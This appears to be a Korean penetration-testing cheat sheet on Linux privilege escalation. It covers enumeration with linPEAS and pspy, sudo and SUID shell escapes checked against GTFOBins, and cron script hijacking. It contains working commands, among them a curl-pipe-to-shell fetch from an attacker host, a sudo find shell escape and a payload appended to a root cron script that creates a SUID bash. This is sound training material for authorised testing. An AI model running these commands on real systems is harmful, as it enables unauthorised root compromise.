

> 리눅스 권한상승의 대부분은 **설정 오류**입니다 — 과한 SUID, 느슨한 sudo, 쓰기 가능한 cron, 위험한 capability. 자동 열거로 후보를 모으고 GTFOBins와 대조합니다. 예시 경로·IP는 전부 플레이스홀더입니다.

## 개념



- **열거 먼저**: linPEAS로 넓게, pspy로 "지금 돌아가는 것"을 관찰.
- **GTFOBins 대조**: 허용된 sudo·SUID 바이너리가 셸 탈출이 되는지 확인.
- **쓰기 경로 추적**: root가 실행하는 스크립트·cron에 내 쓰기 권한이 닿는지.

## 공격·우회 구문

허가된 범위에서만.

### 자동·수동 열거

```bash
# linPEAS (내 쪽 $LHOST에서 받아 실행)
curl http://$LHOST/linpeas.sh | sh

# 루트 cron·주기 작업을 실시간 관찰(인자·경로 노출)
./pspy64

# 수동 핵심 점검
id; sudo -l
find / -perm -4000 -type f 2>/dev/null          # SUID
getcap -r / 2>/dev/null                          # capabilities
cat /etc/crontab; ls -la /etc/cron.*             # cron
```

> 판단 포인트: `sudo -l`과 SUID 목록은 **1분이면 끝나는데 가장 자주 답을 줍니다.** 복잡한 커널 익스플로잇으로 가기 전에 이 둘부터 GTFOBins에 넣어 봅니다.

### sudo 악용

```bash
# 비밀번호 없이 허용된 바이너리가 있으면 → GTFOBins 패턴
sudo -l
# 예: (ALL) NOPASSWD: /usr/bin/find
sudo find . -exec /bin/sh \; -quit
```

### SUID / capability 악용

```bash
# SUID 바이너리가 GTFOBins에 있으면 셸 탈출
# 예: 쓰기/실행 흐름을 바꿀 수 있는 바이너리
# capability cap_setuid 가 붙은 바이너리는 uid 변경 가능
getcap -r / 2>/dev/null
```

### cron / 쓰기 가능 스크립트

```bash
# root가 주기 실행하는 스크립트에 쓰기 권한이 있으면 페이로드 추가
ls -la /path/to/root_script.sh
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /path/to/root_script.sh
# 다음 실행 후
/tmp/rootbash -p
```

> 판단 포인트: 특수 그룹 소속(`docker`, `lxd`, `disk` 등)은 그 자체로 루트 권한으로 이어질 수 있습니다. `id` 출력의 그룹을 흘려보지 않습니다.

## 함께 보기

- [리눅스 권한 상승(개념)](/notes/linux-privilege-escalation/)
- [모의침투 작전 흐름](/notes/penetration-testing-operation-flow/)

## 참고 자료

- [GTFOBins](https://gtfobins.github.io/)
- [MITRE ATT&CK: Abuse Elevation Control Mechanism — Sudo (T1548.003)](https://attack.mitre.org/techniques/T1548/003/)
- [MITRE ATT&CK: Scheduled Task/Job — Cron (T1053.003)](https://attack.mitre.org/techniques/T1053/003/)
